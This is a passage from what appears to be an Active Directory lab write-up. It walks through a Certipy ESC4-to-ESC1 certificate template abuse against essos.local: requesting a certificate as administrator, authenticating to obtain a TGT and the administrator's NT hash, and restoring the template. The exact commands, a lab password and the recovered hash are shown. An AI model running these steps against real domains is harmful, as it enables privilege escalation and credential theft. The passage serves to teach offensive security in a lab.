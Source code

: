 ```bash
[+]     nTSecurityDescriptor: [b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00\xc8\xa3\x1f\xdd\xe9\xba\xb8\x90,\xaes\xbb\xf4\x01\x00\x00']
[+]     flags: [b'0']
[+]     pKIDefaultKeySpec: [b'2']
[+]     pKIKeyUsage: [b'\x86\x00']
[+]     pKIMaxIssuingDepth: [b'-1']
[+]     pKICriticalExtensions: [b'2.5.29.19', b'2.5.29.15']
[+]     pKIExpirationPeriod: [b'\x00@\x1e\xa4\xe8e\xfa\xff']
[+]     pKIDefaultCSPs: [b'1,Microsoft Enhanced Cryptographic Provider v1.0']
[+]     msPKI-RA-Signature: [b'0']
[+]     msPKI-Enrollment-Flag: [b'0']
[+]     msPKI-Certificate-Name-Flag: [b'1']
[*] Successfully updated 'ESC4'
```

Now exploit the ESC1 on ESC4.

`certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC4 -ca ESSOS-CA -upn administrator@essos.local`

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Authenticate:

`certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

And rollback the template configuration:

`certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json`

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```
